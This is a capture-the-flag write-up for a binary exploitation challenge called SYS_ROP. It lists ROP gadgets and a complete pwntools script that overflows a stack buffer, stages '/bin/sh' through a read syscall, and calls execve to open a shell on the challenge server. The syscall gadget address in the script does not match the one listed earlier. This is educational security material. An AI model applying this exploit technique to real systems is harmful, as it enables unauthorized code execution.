 ## SYS_ROP

### recon

we are given an ELF executable `chall` which has all mitigations disabled and is not linked against `libc`.

when examining it we notice that we have a stack buffer overflow, meaning we can ROP (who would've guessed?).

we can find the following gadgets:

```bash
0x0000000000401085: pop rax; ret;
0x000000000040107f: pop rdi; ret;
0x0000000000401083: pop rdx; ret;
0x0000000000401081: pop rsi; ret;
0x000000000040100a: syscall;
```

we can call arbitrary syscalls.

### exploit plan

since we don't have `libc`, we will have to call `execve("/bin/sh", {"/bin/sh", NULL}, NULL)`.

### final exploit

```python
from pwn import *

context.binary = elf = ELF("./chall")

p = remote("sys-rop.bsides.shellmates.club", 443, ssl=True)
assert p

rw = 0x402010
POP_RAX = 0x401085
POP_RDI = 0x40107f
POP_RSI = 0x401081
POP_RDX = 0x401083
SYSCALL = 0x401011

payload = b'A'*88
payload += p64(POP_RAX) + p64(0)
payload += p64(POP_RDI) + p64(0)
payload += p64(POP_RSI) + p64(rw)
payload += p64(POP_RDX) + p64(32)
payload += p64(SYSCALL)
payload += p64(POP_RAX) + p64(0x3b)
payload += p64(POP_RDI) + p64(rw)
payload += p64(POP_RSI) + p64(rw+16)
payload += p64(POP_RDX) + p64(0)
payload += p64(SYSCALL)

p.sendlineafter(b'message:', payload)

part2 = b'/bin/sh\0'
part2 += p64(0)
part2 += p64(rw)
part2 += p64(0)

p.sendline(part2)

p.interactive()
```